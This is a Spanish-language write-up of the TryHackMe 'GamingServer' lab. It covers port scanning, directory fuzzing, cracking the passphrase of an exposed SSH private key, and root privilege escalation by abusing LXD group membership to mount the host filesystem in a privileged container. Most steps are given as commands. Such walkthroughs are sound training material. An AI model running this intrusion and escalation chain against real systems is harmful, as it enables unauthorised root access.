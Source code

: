 # Máquina GamingServer

Enlace a la máquina -> [TryHackMe](https://tryhackme.com/r/room/gamingserver)

![imagen](https://github.com/user-attachments/assets/b7aad872-f5b7-4d25-9ece-12279daf2060)

- **Nombre de la Máquina:** GamingServer
- **Sistema Operativo:** Linux  
- **Dificultad:** Fácil  
- **Plataforma:** TryHackMe  
- **Dirección IP:** 10.10.234.252
- **Vulnerabilidades Explotadas:**
  - Exposición de una clave privada RSA en el directorio secret, lo que permitió el acceso al sistema a través de SSH al usuario john.
- **Escalada de Privilegios:**
  - El usuario john era miembro del grupo lxd, lo que permitió la explotación del servicio LXD. Utilizando una imagen de contenedor personalizada, se montó el sistema de archivos del host, lo que facilitó el acceso al sistema con privilegios de root.
## Reconocimiento y Enumeración

Comenzamos realizando un escaneo general utilizando Nmap para identificar los puertos abiertos en la IP del objetivo:

```bash
sudo nmap -p- -sS --min-rate 5000 -v -n -Pn 10.10.234.252 -oN escaneo.txt
```

![imagen](https://github.com/user-attachments/assets/82419728-dc17-40b3-ad24-a426bc06d286)

El escaneo reveló que los puertos 22 (SSH) y 80 (HTTP) están abiertos. Para un análisis más profundo, realizamos un escaneo enfocado en estos puertos para identificar los servicios y versiones que se ejecutan en ellos:

```bash
sudo nmap -p 22,80 -sCV -T5 10.10.234.252 -oN targeted.txt
```

![imagen](https://github.com/user-attachments/assets/308d85c9-3e52-432f-b5de-ec7619aa95d7)

### Puerto 80 HTTP

Utilizamos `whatweb` para obtener más detalles sobre el servicio que corre en el puerto 80:

![imagen](https://github.com/user-attachments/assets/ce419440-834f-477e-993c-c06689da50af)

![imagen](https://github.com/user-attachments/assets/e34bfa99-1b01-4f8f-a089-6cee207e4f99)

La página web a primera vista no parece tener nada interesante pero si miramos el código fuente, hay un comentario nombrando a un tal **john**.

![imagen](https://github.com/user-attachments/assets/b8fff0dc-7186-49f2-a4ef-9c3f8ecf305b)

Vamos a hacer fuzzing a ver si encontramos algún directorio interesante.

```bash
feroxbuster -u "http://10.10.234.252/" -t 100 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -B -x php
```

![imagen](https://github.com/user-attachments/assets/5a35a3f0-2a5e-4b03-abc8-37881340e915)

Hemos encontrado directorios interesantes: `secret` `uploads`
Directorio uploads:

![imagen](https://github.com/user-attachments/assets/d8be1c22-a159-4b37-ada1-806e62650ece)

Directorio secret:

![imagen](https://github.com/user-attachments/assets/63c578cf-8b7c-4cd7-85d4-bfcb066f71c5)

Nos descargamos todo y revisamos uno por uno a ver lo que es cada archivo.

![imagen](https://github.com/user-attachments/assets/426d479b-2fd3-4f15-a2cd-d0a30258a9ce)

dict.lst parece ser un diccionario.

![imagen](https://github.com/user-attachments/assets/fb994ffa-82f8-40ae-a5a4-321eb89559df)

manifesto.txt es un archivo de texto que no sirve para absolutamente nada.

![imagen](https://github.com/user-attachments/assets/7493f280-dab3-4649-b3c6-6915d00e8954)

Meme.jpg: Un archivo jpg, este puede contener esteganografía; sin embargo un chequeo rápido usando strings, Exiftool y Binwalk no encontró nada. Puede que haya información oculta que podamos extraer con Steghide, pero si la hay necesitamos una Passphrase. Ejecutando Stegcracker con la lista de palabras de rockyou tampoco encontramos una Passphrase.

secretKey es una clave RSA privada.

![imagen](https://github.com/user-attachments/assets/c8802a60-d91a-46b4-b205-305aed815330)

Para utilizarla cambiaremos los permisos del archivo pero igualmente nos pide una frase como contraseña que actualmente no conocemos.

```bash
chmod 700 secretKey
ssh john@10.10.234.252 -i secretKey
```

![imagen](https://github.com/user-attachments/assets/3ee61ba6-a004-471b-9063-9cdc4d8d1e3e)

Lo que haremos será extraer el hash usando john para poder crackearlo y conseguir esa password, utilizaremos el diccionario que conseguimos haciendo fuzzing.

![imagen](https://github.com/user-attachments/assets/be887897-d580-4395-94e6-e07e97760363)

```bash
ssh2john secretKey > john.hash
john --wordlist=dict.lst secretKey
```

![imagen](https://github.com/user-attachments/assets/824ed815-7151-4c29-aae4-a552465f5687)

### Intrusión

![imagen](https://github.com/user-attachments/assets/01480883-8731-4b01-b379-b1de6076ea6f)

## Escalada de privilegios a root
Una vez dentro intento hacer un `sudo -l` pero no tengo la password de john así que no puedo ver los permisos.

![imagen](https://github.com/user-attachments/assets/bb21c689-da79-4c11-a348-8607d13928df)

También miro los permisos SUID pero no encuentro nada interesante.

```bash
find / -perm -4000 2>/dev/null
```

Transferí un script llamdo [pspy64](https://github.com/DominicBreuker/pspy) para ver los procesos que se ejecutan en segundo plano.

![imagen](https://github.com/user-attachments/assets/263ca740-c727-472d-ad61-651b2ed74a0d)

Pero tampoco ví que se ejecutase algo interesante así que opté por ver en los grupos en los que john está y vemos que estamos en el grupo `lxd`.

![imagen](https://github.com/user-attachments/assets/e5234b9b-6dcd-4b89-8ae9-2f76e8b1a64b)

Podriamos escalar privilegios de la siguiente [manera](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation).

```bash
git clone https://github.com/saghul/lxd-alpine-builder
```

cd en el directorio "lxd-alpine-builder" y ejecute el "build-alpine" con el siguiente comando.

```bash
sudo ./build-alpine -a i686
```

Cuando hagas ls en el directorio verás que tienes el archivo de imagen con la extensión .gz. A continuación tenemos que configurar un servidor http simple y subir el archivo de imagen a la máquina remota.

![imagen](https://github.com/user-attachments/assets/cf54867b-6baf-4af5-9705-887325966d03)

Una vez cargada, tenemos que importar la imagen a lxd.

```bash
lxc image import alpine-v3.20-i686-20240911_1726.tar.gz --alias alpine
```

![imagen](https://github.com/user-attachments/assets/eca5fa89-dc44-4ac0-bd08-012fb424b1e7)

Si utilizamos el comando "lxc image list", podemos ver que la imagen ya está disponible en lxd:

![imagen](https://github.com/user-attachments/assets/af40b360-6c00-4ba2-96db-c9cfc1e86012)

Ahora necesitamos crear una máquina a partir de la imagen, esto se puede hacer ejecutando el siguiente comando:

```bash
lxc init alpine privesc -c security.privileged=true
```

Si utilizamos el comando "lxc list", ahora podemos ver que la máquina con el nombre privesc.

![imagen](https://github.com/user-attachments/assets/bd4bbed8-26f8-469f-b4b7-37d64b171d17)

A continuación necesitamos añadir un disco duro a la máquina, la técnica privesc en este caso busca tener todo el host montado en el /mnt/root y así tener acceso root. Esto lo podemos lograr con el siguiente comando:

```bash
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

![imagen](https://github.com/user-attachments/assets/40eb6891-6940-4edd-8721-7faca17e3295)

Como se ha indicado anteriormente, la máquina privesc está actualmente parada, por lo que tendremos que iniciarla con el siguiente comando:

```bash
lxc start privesc
```

![imagen](https://github.com/user-attachments/assets/a587f9e8-1723-4d72-afe0-90586783c6dc)

Para explotar la máquina, ejecutamos el siguiente comando:

```bash
lxc exec privesc /bin/sh
```

![imagen](https://github.com/user-attachments/assets/352955c8-4ca9-4418-8b87-f415e025b438)

Todo lo que tenemos que hacer ahora es coger la flag root.txt y ya está:

![imagen](https://github.com/user-attachments/assets/73d90830-a47e-4c9c-a994-88e678da45c1)
